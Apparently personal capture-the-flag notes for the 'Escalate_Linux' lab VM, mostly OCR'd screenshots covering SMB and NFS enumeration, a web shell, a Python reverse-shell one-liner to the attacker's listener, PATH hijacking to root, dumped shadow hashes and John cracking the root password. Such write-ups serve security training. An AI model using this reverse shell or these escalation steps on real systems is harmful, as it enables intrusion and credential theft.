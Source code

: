 # Escalate_Linux
06 April 2022
12:40 AM

<img src="Escalate_Linux/media/image1.png" style="width:5.78333in;height:6.65833in" />

<img src="Escalate_Linux/media/image2.png" style="width:5.73333in;height:4.075in" alt="139/tcp 445/tcp 2049/tcp 39677/tcp 43225/tcp 45089/tcp 51473/tcp open open open open open open open netbios-ssn netbios-ssn nfs act nlockmgr mountd mountd mountd (workgroup: WORKGROUP) Samba smbd 3. X - samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP) (RPC #100227) 3 1-4 (RPC #100021) 1-3 (RPC #100005) 1-3 (RPC #1ØØØØ5) 1-3 (RPC #100005) Service Info: Host: LINUX Host script results: smb-os-discovery: OS: Windows 6.1 (samba 4.7.6-Ubuntu) Computer name: osboxes NetBIOS computer name: LINUX\XØØ Domain name: \xøø FQDN: osboxes system time: clock-skew: mean: lh2Ømøøs, deviation: 2h18m34s, median: Os nbstat: NetBIOS name: Names : smb-securi ty-mode : account _ used: guest authentication level: LINUX, NetBIOS user: NetBIOS MAC• Flags: Flags: &lt;unique&gt;&lt;active&gt; Flags: Flags: &lt;group&gt;&lt;active&gt; Flags: &lt;group&gt;&lt;active&gt; Flags: Flags: &lt;group&gt;&lt;active&gt; user . &lt;unknown&gt; (unknown) " />

<img src="Escalate_Linux/media/image3.png" style="width:5.825in;height:0.975in" alt="(kaliS kali $ smbmap -H &quot;192.168.43.168&quot; [+] Guest session 192.168.43.168 Disk liteshare IPC$ kali • 445 IP: 192.168.43.168. Name : permissions NO ACCESS NO ACCESS commen t IPC Service (Linux Lite Shares) " />

<img src="Escalate_Linux/media/image4.png" style="width:6in;height:2.58333in" />

<img src="Escalate_Linux/media/image5.png" style="width:5.96667in;height:0.90833in" alt="kali ) — [ —/Desktop/ctfJ nfs 192.168.43.168:/home/user5 user5 sudo mount -t [sudo] password for kali: " />

<img src="Escalate_Linux/media/image6.png" style="width:5.95833in;height:1.03333in" alt="kaliS kali ) - [&quot;Desktop/ctf] L—$ cd user5 (kaliS &quot;Desktop/ctf/user5J Desktop Documents Downloads Is Music Pictures Public Templates Videos " />

file found in directory fuzzing
/shell.php

<img src="Escalate_Linux/media/image7.png" style="width:5.3in;height:1.25833in" alt="c O a 192.168.43.168/shell.php Google HackingDB Vigenere Solver LxdPrivilege Escalatio-.. ppass cmd as get parameter*/ " />

<img src="Escalate_Linux/media/image8.png" style="width:4.66667in;height:1.25833in" alt="Google Hacking DB Vigenere Solver Lid Privilege Escalation lusr/bin/python Ppass cmd as get parameter&quot; " />

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("192.168.43.208",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

<img src="Escalate_Linux/media/image9.png" style="width:5.86667in;height:1.36667in" alt="katiS kali)- nc -nvlp 9001 listening on [any] 9001 connect to [192.168.43.208] from (UNKNOWN) [192.168.43.168] 58788 $ id uid=1øø5(user6) groups=1øø5(user6) " />

<img src="Escalate_Linux/media/image10.png" style="width:4.95in;height:6.725in" alt="//User64 home U user$l/ Is -al . [script nano Is Is PATH 4PATH $PATH export export PATH=. :$PATH 4 PATH $PATH Is chmod +x Is . [script dir dir scipt dir script su root ./script export :$PATH . / script Is cat .bash_history " />

<img src="Escalate_Linux/media/image11.png" style="width:5.775in;height:1.9in" alt="su root LLLUser6 home T userSO ./script Desktop Downloads Pictures Templates Is Documents Music Public Videos script / I home I user5 export PATH=. :$PATH user6 / I home I user5 ./script user6 uid=ø(root) gid=ø(root) root root : $6$mqjgc FoM$X/qNpZR6gXPAxdgDj 7cPaYf zPSmgATM9cwD1 : 18050 : : 99999 : 7 : um-data: x " />

<img src="Escalate_Linux/media/image12.png" style="width:5.75in;height:2.11667in" alt="• $6 $9iyn/1Cu$ux10ZYhh FSAwJ8DPj r j r12Wv. Pz9DahMTfwpw1UC5ybyBGpuHToN11 jTqMLGShØR2Ch41 j EH2RJhZØ . userl. • 18050. • $6$7gVE7KgT$ud1VN80wYCbFveie04CJQ10McEgcfKqa24ivRs/MNAmmPeudsz/P3QeCMHj8UL1 vSufZmp3TodaW11FSZCKG5. user2 . • $6$paKeECW4$5YMn9UU4YBYCjØLP4QwaGt/S1aGØZS73EOJXh . RtøebjprnsBrnuGUwrgBamqccx7qzøswJouzrqn . GM69aaWJOØ . user3 . • 18051 • $6$øpxj6KPI $NA5S/2yN3TT JbPypEnsqYe1 PrgbfccHntMggLdU2 eM5/23dnosIpmD8sRJw11PyDFgQXH52kYk. bz c6sAVSWm. user4 . : 18051 • • $6 $wndyax19$cOEaymjMiRi1j z zaSa FVXD7 L Fx20wOxeonEdCW. GszLm77kØd5GpQZz JpcwvufmRndcYatr5ZQESdqb1sOb9n/ user5. : 18051 • • $6 $Y9wYnrUW$i hpBL4g3GswEay/AqgrKz VI n8uKhWi BNI hdKm6DdX7WtDZcUbh/ 5w/tQELa3 L t iyT Fws L sWXubsSCf z Rcaolu/ . user6. • 18051 mysql : $6 F$NZDtY392guzyrveKnorsea60Qpv870pEj Eef IUPbkrfmrHG/10nKdnYEecøsøzBcQFZ. sno/ : 18053 • $6 $5RBu0GFi$eJrQ4/xf2 IXa7 eykma1VKiRKJ4w3vFEOEOtYinnk1Ra .89dXtGQXdH . Rdyø . user7. • 18052 • • $6$fdtu1Q7i$G9THW4j6kUY4bX1f7C/OXQtntW123LRVRf1kJ6akDLPH1qB5PJLD4AEYZ7WXSEhMC2XC4CqiTXATfb2øxwaxp user8 . .:18052. user6 Password : su root user welcome to Linux Lite 4.4 you are running in superuser mode, Tuesday 05 April 2022, 15:53:28 Memory usage: 331/985MB (33.60%) Disk Usage: 5/217GB (3%) users:» whoami root root be very careful. " />

<img src="Escalate_Linux/media/image13.png" style="width:5.7in;height:1.69167in" alt="(kali@ —&#39;Desktop/ctf] $ sudo john wordlist=/usr/share/wordlists/rockyou.txt hash Using default input encoding: UTF-8 Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x]) Cost 1 (iteration count) is 5000 for all loaded hashes Will run 4 openMP threads Press &#39;q&#39; or Ctrl-C to abort, almost any other key for status root lg DONE (2022-04-05 15:53) 3.571g/s 914.2p/s 914.2c/s 914.2C/s 123456. Use the &quot;—show&quot; option to display all of the cracked passwords reliably Session completed. . freedom " />
